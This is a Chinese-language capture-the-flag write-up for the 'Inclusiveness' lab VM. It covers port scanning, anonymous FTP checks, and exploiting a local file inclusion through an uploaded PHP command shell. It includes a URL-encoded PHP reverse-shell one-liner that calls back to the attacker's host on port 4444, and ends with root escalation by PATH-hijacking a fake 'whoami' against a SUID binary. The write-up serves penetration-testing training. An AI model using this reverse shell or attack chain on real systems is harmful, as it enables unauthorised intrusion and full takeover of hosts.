 # inclusiveness
## 信息收集
### 端口枚举
```
┌──(aaron㉿aacai)-[~/Desktop/inclusiveness]
└─$ sudo nmap -p- 192.168.146.57                     
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-14 19:29 HKT
Nmap scan report for 192.168.146.57
Host is up (0.00016s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:0C:29:CC:0B:D9 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 10.67 seconds

└─$ sudo nmap -p21,22,80 -sV -A 192.168.146.57
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-14 19:30 HKT
Nmap scan report for 192.168.146.57
Host is up (0.00032s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 0        0            4096 Feb 08  2020 pub [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.146.50
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 06:1b:a3:92:83:a5:7a:15:bd:40:6e:0c:8d:98:27:7b (RSA)
|   256 cb:38:83:26:1a:9f:d3:5d:d3:fe:9b:a1:d3:bc:ab:2c (ECDSA)
|_  256 65:54:fc:2d:12:ac:e1:84:78:3e:00:23:fb:e4:c9:ee (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.38 (Debian)
MAC Address: 00:0C:29:CC:0B:D9 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.32 ms 192.168.146.57

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.75 seconds

```
### FTP信息枚举
在端口枚举的时候看到FTP允许匿名访问, 匿名访问看看有没有什么文件可以下载
```
└─$ ftp 192.168.146.57   
Connected to 192.168.146.57.
220 (vsFTPd 3.0.3)
Name (192.168.146.57:aaron): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||28415|)
150 Here comes the directory listing.
drwxrwxrwx    2 0        0            4096 Feb 08  2020 pub
226 Directory send OK.
ftp> exit
221 Goodbye.

```
看来是没有...
### Web信息枚举
通过dirsearch我们可以看到有一个.robots.txt
```
[19:35:20] 200 -   59B  - /.robots.txt
[19:35:37] 200 -   10KB - /index.html
[19:35:40] 200 -  626B  - /manual/index.html
[19:35:44] 200 -   59B  - /public_html/robots.txt
[19:35:45] 200 -   59B  - /robots.txt
[19:35:45] 200 -   59B  - /robots.txt.dist

```

![Img](../FILES/inclusiveness/img-20220814193612.png)
但是返回告诉我们不是搜索引擎, 那我们就构造一个搜索引擎的ua
<br>

```
curl -s --user-agent Googlebot http://192.168.146.57/robots.txt   
```
![Img](../FILES/inclusiveness/img-20220814193752.png)
<br>
这里看到一个Disallow的目录
<br>
![Img](../FILES/inclusiveness/img-20220814193827.png)
访问之后当我们切换语言的时候, 会发现后面多了个lang=en.php, 尝试fuzz
![Img](../FILES/inclusiveness/img-20220814194154.png)
<br>
发现确实存在LFI, 直接访问/etc/passwd
<br>
![Img](../FILES/inclusiveness/img-20220814194223.png)
还记得刚开始的时候ftp是可以写入的, 那我们在就本地写一个能够接受cmd的系统函数给靶机
![Img](../FILES/inclusiveness/img-20220814194443.png)
![Img](../FILES/inclusiveness/img-20220814194510.png)
这样我们的shell.php就上去了
<br>
尝试查看一下ftp的目录在哪里, 通常在/etc下, 并且通过nmap我们也知道这个服务名为vsftpd
![Img](../FILES/inclusiveness/img-20220814194711.png)
看到了目录在/var/ftp, 这样我们就能直接访问了
![Img](../FILES/inclusiveness/img-20220814194807.png)
## 突破边界
发送php的反弹shell到靶机
```
php%20-r%20%27%24sock%3Dfsockopen%28%22192.168.146.50%22%2C4444%29%3Bexec%28%22sh%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27
```
![Img](../FILES/inclusiveness/img-20220814194920.png)
<br>
获取到www-data的权限
<br>
查看是否有文件具有suid的权限
![Img](../FILES/inclusiveness/img-20220814195112.png)
<br>
来到这个目录下, 查看到一个rootshell.c的文件, 通过gcc生成了rootshell
<br>
![Img](../FILES/inclusiveness/img-20220814195311.png)
![Img](../FILES/inclusiveness/img-20220814195433.png)
<br>
解读一下这行代码:    
<br>
如果文件以Tomcat的身份通过调用whoami的函数进行了身份认证之后, 可以直接提升权限, 否则将会直接打印当前的用户
<br>
那我们就去/tmp目录下新建一个whoami的文件, 然后伪造自己是tom
```
www-data@inclusiveness:/tmp$ echo "printf "tom"" > whoami
echo "printf "tom"" > whoami
www-data@inclusiveness:/tmp$ ls
ls
whoami
www-data@inclusiveness:/tmp$ chmod +x whoami
chmod +x whoami
www-data@inclusiveness:/tmp$ 
```
然后修改系统的路径到/tmp
```
www-data@inclusiveness:/tmp$ export PATH=/tmp:$PATH
export PATH=/tmp:$PATH
www-data@inclusiveness:/tmp$ 
```
然后去执行/rootshell
![Img](../FILES/inclusiveness/img-20220814200330.png)
提权成功
![Img](../FILES/inclusiveness/img-20220814200354.png)
